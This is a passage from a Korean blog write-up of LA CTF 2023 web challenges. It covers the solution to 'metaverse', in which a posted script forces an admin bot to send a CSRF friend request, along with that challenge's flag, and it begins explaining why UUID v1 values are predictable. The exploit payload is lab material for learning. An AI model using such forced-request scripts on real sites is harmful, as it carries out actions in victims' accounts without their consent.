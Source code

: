 일단, 여기까지 와서 보니 `xss`라기보단 `csrf`로 풀리는 문제였다.

`bmcyver`라는 계정을 만들고 아래 코드를 포스트하고, `admin bot`이 해당 페이지를 방문하게 하면 된다.

```html title="exploit.html"
<script>
  fetch("http://metaverse:8080/friend", {
    method: "POST",
    body: "username=bmcyver",
    headers: {
      "Content-Type": "application/x-www-form-urlencoded",
    },
  });
</script>
```

![metaverse-1](/assets/posts/2025-04-01-LA-CTF-2023/metaverse-1.webp)

`lactf{please_metaget_me_out_of_here}`

~~익스 코드 짜는 것보다 docker 네트워크 이슈 때문에 고생했다;;~~

## web/uuid hell (165 solves, 391 points)

:::tip[description]
UUIDs are the best! I love them (if you couldn't tell)!
:::

먼제 이 문제를 해결하기 위해서는 **uuid v1**에 대한 이해가 필요하다.

**uuid v1**은 `MAC 주소`와 `시간`을 기반으로 생성되는 **uuid**이다.

즉, **uuid**의 **randomness**는 상당히 떨어진다.

아래의 이미지를 참조하면 한번에 이해가 될 것이다.

